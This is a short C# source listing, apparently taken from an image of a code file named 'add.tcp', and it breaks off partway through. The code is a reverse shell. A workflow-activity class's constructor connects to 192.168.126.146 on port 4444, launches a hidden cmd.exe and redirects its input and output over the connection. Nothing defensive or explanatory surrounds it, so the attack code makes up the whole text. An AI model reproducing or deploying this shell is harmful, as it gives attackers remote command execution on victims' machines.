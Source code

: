#### add.tcp

```c#
using System;

using System.Text;

using System.IO;

using System.Diagnostics;

using System.ComponentModel;

using System.Net;

using System.Net.Sockets;

using System.Workflow.Activities;

public class Program : SequentialWorkflowActivity

{

static StreamWriter streamWriter;

public Program()

{

using(TcpClient client = new TcpClient("192.168.126.146", 4444))

{

using(Stream stream = client.GetStream())

{

using(StreamReader rdr = new StreamReader(stream))

{

streamWriter = new StreamWriter(stream);

StringBuilder strInput = new StringBuilder();

Process p = new Process();

p.StartInfo.FileName = "cmd.exe";

p.StartInfo.CreateNoWindow = true;

p.StartInfo.UseShellExecute = false;

p.StartInfo.RedirectStandardOutput = true;

p.StartInfo.RedirectStandardInput = true;

p.StartInfo.RedirectStandardError = true;

p.OutputDataReceived += new DataReceivedEventHandler(CmdOutputDataHandler);

p.Start();

p.BeginOutputReadLine();
```